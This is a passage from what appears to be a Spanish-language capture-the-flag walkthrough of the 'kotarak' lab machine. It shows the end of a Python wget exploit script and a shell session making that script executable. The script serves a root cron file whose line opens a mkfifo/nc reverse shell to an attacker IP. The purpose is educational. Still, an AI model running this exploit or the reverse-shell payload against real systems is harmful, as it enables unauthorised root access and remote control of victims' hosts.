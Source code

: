 ```python
       print "It should get saved in /etc/cron.d/wget-root-shell on the victim's host (because of .wgetrc we injected in the GET first response)"
       self.send_response(200)
       self.send_header('Content-type', 'text/plain')
       self.end_headers()
       self.wfile.write(ROOT_CRON)

       print "\nFile was served. Check on /root/hacked-via-wget on the victim's host in a minute! :) \n"

       return

HTTP_LISTEN_IP = '0.0.0.0'
HTTP_LISTEN_PORT = 80
FTP_HOST = '10.10.14.16'
FTP_PORT = 21

ROOT_CRON = "* * * * * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.16 443 >/tmp/f \n"

handler = SocketServer.TCPServer((HTTP_LISTEN_IP, HTTP_LISTEN_PORT), wgetExploit)

print "Ready? Is your FTP server running?"

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
result = sock.connect_ex((FTP_HOST, FTP_PORT))
if result == 0:
   print "FTP found open on %s:%s. Let's go then\n" % (FTP_HOST, FTP_PORT)
else:
   print "FTP is down :( Exiting."
   exit(1)

print "Serving wget exploit on port %s...\n\n" % HTTP_LISTEN_PORT

handler.serve_forever()
```

Le damos permisos de ejecución al archivo `wget-exploit.py`:

```bash
atanas@kotarak-dmz:/dev/shm$ ll
total 4
drwxrwxrwt  2 root   root     60 Oct 19 18:05 ./
drwxr-xr-x 20 root   root   3980 Oct 19 15:07 ../
-rw-rw-r--  1 atanas atanas 2871 Oct 19 18:05 wget-exploit.py
atanas@kotarak-dmz:/dev/shm$ chmod +x wget-exploit.py 
atanas@kotarak-dmz:/dev/shm$ ll
total 4
drwxrwxrwt  2 root   root     60 Oct 19 18:05 ./
drwxr-xr-x 20 root   root   3980 Oct 19 15:07 ../
-rwxrwxr-x  1 atanas atanas 2871 Oct 19 18:05 wget-exploit.py*
atanas@kotarak-dmz:/dev/shm$
```

